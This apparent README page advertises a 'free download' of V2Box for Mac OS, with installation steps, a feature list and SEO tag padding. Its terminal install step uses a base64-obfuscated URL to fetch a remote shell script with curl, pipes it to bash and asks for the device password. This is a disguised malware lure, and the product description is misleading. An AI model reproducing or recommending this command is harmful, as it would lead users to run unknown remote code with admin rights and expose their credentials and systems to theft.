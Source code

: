 # V2Box — Free Download for Mac OS 🖥️
![logo](https://img.utdstc.com/icon/8f7/f6d/8f7f6dba7f928494eb306adfe7c17d13910b600476f39edc935f0311b3973420:200)

V2Box is a powerful and lightweight productivity tool designed for Mac OS, offering seamless integration and a user-friendly interface. Follow the instructions below to install V2Box on your Mac and unlock its full potential for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/v2box)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install V2Box for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with V2Box

- 🖌️ **Intuitive Interface**: Navigate effortlessly with a sleek, macOS-native design tailored for productivity.
- ⚡ **Fast Performance**: Optimized for macOS, V2Box runs smoothly even on older Mac devices.
- 📂 **File Management**: Organize and manage files with built-in tools for seamless workflows.
- 🔄 **Cross-Platform Sync**: Sync your data across devices for uninterrupted access.
- 🛠️ **Customizable Settings**: Tailor V2Box to your preferences with extensive customization options.
- 🔒 **Secure Operations**: Built with privacy in mind, ensuring your data stays safe.

---

## About V2Box

V2Box is a versatile productivity application designed specifically for Mac OS users who seek efficiency and simplicity. Whether you're managing projects, organizing files, or streamlining workflows, V2Box offers a robust set of tools to enhance your daily tasks. Its lightweight architecture ensures it runs smoothly on a wide range of Mac devices, from MacBook Air to iMac Pro, without compromising performance. By incorporating **productivity software** principles, V2Box delivers a seamless experience for both casual users and professionals.

One of the standout features of V2Box is its **macOS app** integration, allowing it to work harmoniously with native macOS features like Spotlight, Finder, and iCloud. This ensures that users can quickly access their files and settings without navigating complex menus. The application’s design emphasizes **free download** accessibility, making it easy for anyone to install and start using it immediately. Its open-source nature also invites developers to contribute to its growth, ensuring constant updates and improvements.

Security is a top priority for V2Box. With built-in encryption and secure data handling, users can trust that their information is protected. Whether you're working on sensitive documents or personal projects, V2Box ensures that your data remains private and secure. This focus on **secure macOS apps** makes it an ideal choice for users who prioritize data safety alongside functionality.

The application also supports **cross-platform productivity**, allowing users to sync their data across multiple devices. Whether you’re switching between a MacBook and an iPhone or collaborating with a team, V2Box keeps your work accessible and up-to-date. This feature is particularly useful for professionals who rely on **macOS tools** to manage complex workflows across different environments.

### Advantages of V2Box

V2Box stands out among other **productivity apps for Mac** due to its combination of performance, security, and ease of use. Unlike many alternatives, V2Box is completely free to download and use, with no hidden fees or subscriptions. Its macOS-native design ensures a smooth and responsive experience, while its open-source framework allows for community-driven enhancements. With regular updates and a focus on user feedback, V2Box remains a reliable and future-proof choice for **free Mac software** enthusiasts.

---

## 🖼️ Preview

![V2Box Dashboard](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/5f/b1/3a/5fb13a32-d9d4-ba7b-e571-5fcfe942ee3c/MACOS_1.jpg/643x0w.jpg)  
*V2Box’s clean and intuitive dashboard for managing tasks*

![File Management](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/ff/3b/9d/ff3b9daa-ab88-3932-d1e9-c33edce8fe10/MacOS-33.jpg/643x0w.jpg)  
*Effortless file organization with V2Box’s built-in tools*

![Customization Options](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/b0/c5/52/b0c5527e-d065-a2b6-4a78-d76ac6a3b368/MACOS_1-2.jpg/643x0w.jpg)  
*Personalize your V2Box experience with customizable settings*

---

## 🔍 Tags

v2box free download, v2box for mac, v2box, V2Box mac, V2Box download, V2Box free, V2Box mac os, V2Box download free, V2Box free download mac, V2Box client mac, V2Box for mac, free V2Box, download V2Box, download V2Box mac, V2Box for mac
